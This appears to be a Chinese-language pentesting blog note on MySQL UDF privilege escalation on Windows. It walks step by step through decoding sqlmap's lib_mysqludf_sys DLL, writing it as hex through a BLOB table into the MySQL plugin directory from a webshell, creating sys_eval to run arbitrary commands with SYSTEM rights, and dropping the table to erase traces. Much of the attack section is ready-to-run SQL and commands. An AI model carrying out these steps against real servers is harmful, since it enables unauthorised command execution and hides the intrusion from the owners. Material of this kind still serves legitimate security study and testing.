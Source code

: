 ```yaml
---
title: UDF提权命令执行
date: 2023-08-22 10:04:13
tags:
- 权限
categories:
- 权限
---
```


# 什么是UDF

> udf 全称为：`user defined function`，意为用户自定义函数；用户可以添加自定义的新函数到Mysql中，以达到功能的扩充，调用方式与一般系统自带的函数相同，例如 `contact()`，`user()`，`version()`等函数。
>
> udf 文件后缀一般为 dll，由C、C++编写



# UDF在渗透中的作用

> 在一般渗透过程中，拿下一台windows服务器的webshell时，由于webshell权限较低，有些操作无法进行，而此时本地恰好存在mysql数据库，那么udf可能就派上用场了；由于windows安装的mysql进程一般都拥有管理员权限，这就意味着用户自定义的函数也拥有管理员权限，我们也就拥有了执行管理员命令的权限，这时新建管理员用户等操作也就轻而易举了，大多数人称为这一操作为udf提权，其实表达不够准确，应该称为通过mysql获得管理员权限。



# 必备的条件

> - 获得一个数据库账号，拥有对MySQL的insert和delete权限。以root为佳。
> - 拥有将udf.dll写入相应目录的权限。



# 数据库版本问题

> udf利用的其中一步，是要将我们的xxx.dll文件上传到mysql检索目录中，mysql各版本的检索目录有所不同：
>
> | 版本              | 路径                                                       |
> | ----------------- | ---------------------------------------------------------- |
> | MySQL < 5.0       | 导出路径随意；                                             |
> | 5.0 <= MySQL< 5.1 | 需要导出至目标服务器的系统目录（如：c:/windows/system32/） |
> | 5.1 < MySQL       | 必须导出到MySQL安装目录下的lib\plugin文件夹下              |
>
> **一般Lib、Plugin文件夹需要手工建立（可用NTFS ADS流模式突破进而创建文件夹）**



# 本地复现

> **1、获取Mysql安装路径**
>
> ```
> select @basedir
> 1
> ```
>
> **2、查看可操作路径**
>
> ```
> show global variables like "%secure%"
> 1
> ```
>
> **secure_file_priv值为null，表示mysql不允许导入导出，此时我们只能通过别的方法将udf.dll写入安装路径**
>
> **3、查看plugin目录路径**
>
> ```
> select @@plugin_dir
> 1
> ```
>
> **4、将dll上传方式推荐几种**
>
> 将dll上传到安装路径的方式：
>
> 通过webshell上传
>
> 以hex方式直接上传
>
> **sqlmap中现有的udf文件，分为32位和64位，一定要选择对版本，获取sqlmap的udf方式**
>
> **5、sqlmap中udf获取方式**
>
> 自动化注入工具Sqlmap已经集成了此功能。
>
> **在 \sqlmap\data\udf\mysql\windows\64目录下存放着lib_mysqludf_sys.dll_**
>
> ![image-20230824192859006](../资源文件/图片/image-20230824192859006.png)
>
> 但是为了防止误杀，这个文件是二进制文件，需要编码使用
>
> **可以利用sqlmap 自带的解码工具cloak.py，在sqlmap\extra\cloak中打开命令行，来对lib_mysqludf_sys.dll_进行解码在，然后在直接利用，输入下面的**
>
> ```
> python cloak.py -d -i C:\sqlmap\data\udf\mysql\windows\64\lib_mysqludf_sys.dll_
> ```
>
> ![image-20230824193426024](../资源文件/图片/image-20230824193426024.png)
>
> 接着就会在\sqlmap\data\udf\mysql\windows\64目录下生成一个dll的文件**lib_mysqludf_sys.dll**，这个我们就可以直接拿来利用
>
> 攻击者可以利用lib_mysqludf_sys提供的函数执行系统命令。
>
> 函数：
>
> **sys_eval，执行任意命令，并将输出返回。**
>
> **sys_exec，执行任意命令，并将退出码返回。**
>
> **sys_get，获取一个环境变量。**
>
> **sys_set，创建或修改一个环境变量。**
>
> 
>
> **注意：攻击过程中，首先需要将lib_mysqludf_sys ( 目标为windows时，lib_mysqludf_sys.dll；linux时，lib_mysqludf_sys.so）上传到数据库能访问的路径下。**
>
> ![image-20230824200335269](../资源文件/图片/image-20230824200335269.png)
>
> 把文件复制到plugin目录下
>
> 然后再数据库中输入
>
> ```
> create function sys_eval returns string soname 'udf.dll'
> ```
>
> ![image-20230824200955751](../资源文件/图片/image-20230824200955751.png)
>
> - 然后就可以任意命令执行了
>
> - **sys_eval，执行任意命令，并将输出返回。**
>
>   **sys_exec，执行任意命令，并将退出码返回。**
>
>   **sys_get，获取一个环境变量。**
>
>   **sys_set，创建或修改一个环境变量。**
>
> ```
> select sys_eval('ipconfig')
> ```
>
> ![image-20230824201054028](../资源文件/图片/image-20230824201054028.png)



# 实战复现

```
select hex(load_file('C:/udf.dll')) into dumpfile 'c:/udf.txt'
```

> 利用mysql的hex函数，把udf.dll转换为十六进制
>
> ![image-20230824210201254](../资源文件/图片/image-20230824210201254.png)
>
> **接下来就是把本地的udf16进制形式通过我们已经获得的webshell传到目标主机上。**
>
> **一、新建一个表，名为udftmp，用于存放本地传来的udf文件的内容。**
>
> ```sql
> create table udftmp (c BLOB)
> 1
> ```
>
> **二、在udftmp中写入udf文件内容**
>
> ```sql
> INSERT INTO udftmp values(unhex('udf文件的16进制格式'))
> 1
> ```
>
> **三、将udf文件内容传入新建的udf文件中，路径根据自己的@@plugin_dir修改 //对于mysql小于5.1的，导出目录为**C:\Windows\或C:\Windows\System32\
>
> ```sql
> select c from udftmp into dumpfile 'D:/phpstudy8/Extensions/MySQL5.7.26/lib/plugin/udf.dll'
> 1
> ```
>
> **四、执行下面语句，就可以system权限下命令任意执行，这电脑就沦陷了，执行命令上面已经说过，就不复述了**
>
> ```sql
> create function sys_eval returns string soname 'udf.dll'
> 1
> ```
>
> **五、删除痕迹，做好事不留名**
>
> ```sql
> DROP TABLE udftmp
> 1
> SELECT sys_eval('ipconfig');
> 返回网卡信息
> ```
